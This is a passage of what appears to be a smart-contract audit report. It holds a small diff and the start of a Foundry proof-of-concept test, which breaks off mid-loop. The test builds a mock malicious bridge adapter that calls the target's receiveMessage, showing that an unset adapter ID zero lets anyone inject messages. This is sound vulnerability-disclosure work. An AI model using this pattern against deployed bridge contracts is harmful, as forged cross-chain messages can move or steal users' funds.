 ```diff
     error MessageAlreadySeen(bytes32 messageId);
-    error MessageUnknown(bytes32 messageId);
+    error AdapterUnknown(IBridgeAdapter adapter);
+
+    event successfullyBypassedAllrevertChecksAbove();
+
+    uint256 public number = 13; //testing


```

### POC Foundry
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import { IBridgeAdapter,Counter, Messages} from "../src/Counter.sol";


// a MockBridgeAdapter
contract MockBridgeAdapter {
    
    function cat(Messages.MessageReceived memory payload) external  {
        
    }
}

contract MockMaliciousBridgeAdapter is IBridgeAdapter {
    Counter target;
    constructor(address _target) {
        target = Counter(_target);
    }
    function cat(Messages.MessageReceived memory payload) external {
        // calls contract with malicious payload
        target.receiveMessage(payload);

    }
    
}

contract CounterTest is Test {
    Counter public counter;
    address admin = makeAddr("admin");
    //address manager = makeAddr('manager');

    

    function setUp() public {
        //vm.startPrank(admin);
        counter = new Counter(admin);
        // counter.grantRole(counter.MANAGER_ROLE(),manager); // Already set
    }

    
    // anyOne would be able to call `function receiveMessage()`
    function testContractVulnerableDueToAdapterIdZeroIllustration() public {
        vm.startPrank(admin);
        // adds 5 instances of adapter (For instance)
        for(uint i; i < 5; i++){ //change i =1 to break test hence 0 not instantiated
            
            IBridgeAdapter adapter = IBridgeAdapter(address(new MockBridgeAdapter()));
            counter.addAdapter(uint16(i),adapter);
```